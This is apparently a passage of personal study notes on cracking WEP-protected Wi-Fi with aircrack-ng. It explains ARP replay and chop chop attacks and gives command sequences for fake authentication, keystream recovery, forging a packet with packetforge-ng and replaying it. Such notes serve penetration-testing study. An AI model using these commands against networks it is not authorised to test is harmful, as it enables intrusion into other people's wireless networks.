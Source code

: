 <font color=red> The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward</font>
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in ``#Data``.

<font color=red>to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client</font>

Depending on the key length (64 or 128) bit it takes more IVs to crack the key

#### Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty

#### Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP

<font color=red>The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack).</font>
Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:

```bash
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
```
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place

more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication

```bash
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon

# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon

# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.

# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet

# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
```
